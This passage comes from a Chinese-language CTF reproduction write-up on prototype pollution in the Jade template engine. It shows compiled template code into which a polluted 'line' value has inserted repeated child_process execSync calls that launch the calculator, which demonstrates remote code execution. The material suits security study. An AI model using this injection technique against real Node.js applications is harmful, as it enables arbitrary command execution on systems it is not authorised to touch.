 最后我们看到 fn 的内容是，可以看到插入了我们 line 要污染的值：

```bash
var jade_debug = [ new jade.DebugItem( 1, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ) ];
try {
var buf = [];
var jade_mixins = {};
var jade_interp;
var self = locals || {};
jade_debug.unshift(new jade.DebugItem( 0, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
jade_debug.unshift(new jade.DebugItem( 1, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<!DOCTYPE html>");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 2, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<html>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 3, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<head>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 4, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<meta" + (jade.attr("charset", "utf-8", true, true)) + ">");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 5, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<title>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 5, jade_debug[0].filename ));
buf.push("Example App");
jade_debug.shift();
jade_debug.shift();
buf.push("</title>");
jade_debug.shift();
jade_debug.shift();
buf.push("</head>");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 6, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<body>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 7, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<h1>" + (jade.escape(null == (jade_interp = message) ? "" : jade_interp)));
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.shift();
buf.push("</h1>");
jade_debug.shift();
jade_debug.shift();
buf.push("</body>");
jade_debug.shift();
jade_debug.shift();
buf.push("</html>");
jade_debug.shift();
jade_debug.shift();;return buf.join("");
} catch (err) {
  jade.rethrow(err, jade_debug[0].filename, jade_debug[0].lineno);
}var jade_debug = [ new jade.DebugItem( 1, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ) ];
try {
var buf = [];
var jade_mixins = {};
var jade_interp;
var self = locals || {};
jade_debug.unshift(new jade.DebugItem( 0, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
```